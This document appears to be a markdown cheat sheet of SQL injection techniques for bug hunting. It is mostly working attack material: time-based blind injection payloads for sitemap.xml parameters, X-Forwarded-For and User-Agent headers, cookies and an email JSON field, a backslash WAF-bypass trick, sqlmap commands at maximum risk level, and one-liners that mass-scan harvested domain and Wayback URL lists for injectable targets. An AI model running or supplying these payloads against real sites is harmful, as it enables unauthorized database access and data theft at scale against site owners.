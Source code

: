 ##### TOOLS
- sqlmap
- ghauri ==> this is best



##### SITEMAP
- sitemap.xml is present? . Try setting ?offset=1 parameter and if content changes, run sqlmap or ghauri   
- payload for sitemap.xml ==>             target[.]com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#   ==> output time should be 9
- ```` sqlmap -u "target/sitemap.xml?offset=1" -p offset --level 5 --risk 3 --dbms=MySQL --hostname --test-filter="MySQL >= 5.0.12 stacked queries"````

##### X-FORWARDED-FOR AND USER-AGENT
- X-Forwarded-For: ```` 0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z````
- User-Agent: ````"XOR(if(now()=sysdate(),sleep(6),0))XOR"````

###### TIP: if login page is built with php , use user-agent payload
##### Also check injection in cookie 
---
#### Insert backslash in username and password parameter while creating account
`username=admin\&password=admin\` It may bypass some waf and also trigger error in sql syntax

##### IN PARAMETER
- testing in ?parameter=test by replacing below payload 
  ````?parameter[id) VALUES (NULL); WAITFOR DELAY '0:0:5';--]=test````
- sql injection in email parameter when email is send to check if it exists or not
   ```` 
   {“email”:”asd@a.com”}   response: {“code”:2002,”status”:200,”message”:”Email not found.”}
   {“email”:”\”a’-IF(LENGTH(database())=10,SLEEP(7),0)or’1’=’1\”@a.com”}   response:{“code”:0,”status”:200,”message”:”Successful”}	        Valid Delay: 8,696 milis

   `````



##### SQL IN MASS DOMAINS
````
cat domains.txt | httpx -silent -H "X-Forwarded-For: 'XOR(if(now()=sysdate(),sleep(20),0))OR" -rt -timeout 20 -mrt '>20'
cat waybackurls.txt| grep "\?" | head -20 | httpx -silent > urls;sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt

````


